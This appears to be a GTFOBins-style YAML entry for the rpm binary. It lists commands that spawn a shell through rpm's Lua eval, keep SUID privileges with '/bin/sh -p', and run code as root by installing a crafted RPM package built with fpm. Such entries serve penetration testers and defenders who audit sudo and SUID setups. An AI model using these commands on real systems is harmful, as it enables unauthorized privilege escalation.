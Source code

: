 ```yaml
---
functions:
  shell:
    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

